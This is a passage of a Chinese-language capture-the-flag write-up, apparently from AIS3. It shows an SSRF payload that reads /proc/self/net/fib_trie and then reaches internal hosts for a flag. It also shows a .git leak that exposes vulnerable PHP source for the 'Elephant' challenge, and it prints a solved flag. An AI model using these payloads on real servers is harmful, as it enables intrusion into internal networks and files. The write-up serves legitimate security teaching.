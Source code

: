 因為說Flag運行在內部的伺服器內，所以我構造`?path=file:///proc/self/net/fib_trie`去讀了網路樹狀圖(?
```
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.22.0.0/16 2 0 2
        +-- 172.22.0.0/30 2 0 2
           |-- 172.22.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.22.0.3
              /32 host LOCAL
        |-- 172.22.255.255
           /32 link BROADCAST
```

看了下IP，就從127.22.0.0開始找，然後用`?path=http://172.22.0.1/flag`來讀，沒多久就在127.22.0.2找到Flag。

Flag: `AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}`

### 🐘Elephant
網頁有個可以輸入name的地方，先隨便打一些東西之後登入，然後就在網頁內找到一個提示`You may want to read the source code.`，所以就先朝著找原碼為目標前進。

試了一些方法，試到了`/.git/HEAD`的時候發現可以用GitHack來洩漏原碼。
進行洩漏得到了以下的程式碼:
```php
<?php
const SESSION = 'elephant_user';
$flag = file_get_contents('/flag');

class User {
    public $name;
    private $token;

    function __construct($name) {
        $this->name = $name;
        $this->token = md5($_SERVER['REMOTE_ADDR'] . rand());
    }

    function canReadFlag() {
        return strcmp($flag, $this->token) == 0;
    }
}

if (isset($_GET['logout'])) {
    header('Location: /');
    setcookie(SESSION, NULL, 0);
    exit;
}

$user = NULL;

if ($name = $_POST['name']) {
    $user = new User($name);
    header('Location: /');
```